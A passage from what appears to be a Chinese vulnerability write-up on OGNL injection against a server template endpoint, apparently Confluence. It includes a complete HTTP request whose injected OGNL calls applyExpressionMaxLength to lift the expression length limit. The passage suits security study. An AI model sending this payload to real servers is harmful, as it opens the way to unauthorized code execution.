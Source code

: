 这个属性首先默认在配置文件中出现

[![](assets/1709112096-51297ae21ce39947a0103b3d2c8fe1ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111516-6dcabb64-d51e-1.png)

在 8.5.1 中为 200，在 8.5.3 是 150，当然这都不要紧，因为我们是可以设置 length 的，我们可以通过调用`applyExpressionMaxLength`方法达到类似覆盖的效果

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 190

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@ognl.Ognl@applyExpressionMaxLength(20000000)
```

[![](assets/1709112096-57f58a408ac8c5d0e7b9b827425c8a58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111521-70e248d0-d51e-1.png)
